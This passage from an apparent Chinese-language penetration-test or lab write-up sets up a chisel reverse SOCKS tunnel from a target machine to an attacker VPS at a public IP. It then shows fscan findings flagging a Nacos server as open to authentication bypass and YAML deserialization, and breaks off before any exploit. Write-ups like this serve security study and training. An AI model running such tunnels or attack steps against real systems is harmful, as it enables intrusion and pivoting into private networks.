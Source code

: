 ## 代理搭建

VPS 端

```bash
./chisel server -p 7000 -reverse
```

[![](assets/1706771111-56f2612cf5fd26254f801738e8fac0df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173516-b59c070a-be89-1.png)

靶机

```bash
./chisel client 119.3.215.198:7000 R:0.0.0.0:7001:socks
```

[![](assets/1706771111-44120f3106cb5bb5dc344e050c88e13b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173528-bcf37ed4-be89-1.png)

## 攻击域用户一 (nacos Yaml 反序列化)

### 信息泄露

在 Fscan 扫描结果中发现

```bash
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos 
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos-v1-auth-bypass
```

所以尝试一下用户登录绕过漏洞

[![](assets/1706771111-d3791e6ad411c3c0b6f1af5b8a3ad29c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173536-c1cbf2b0-be89-1.png)

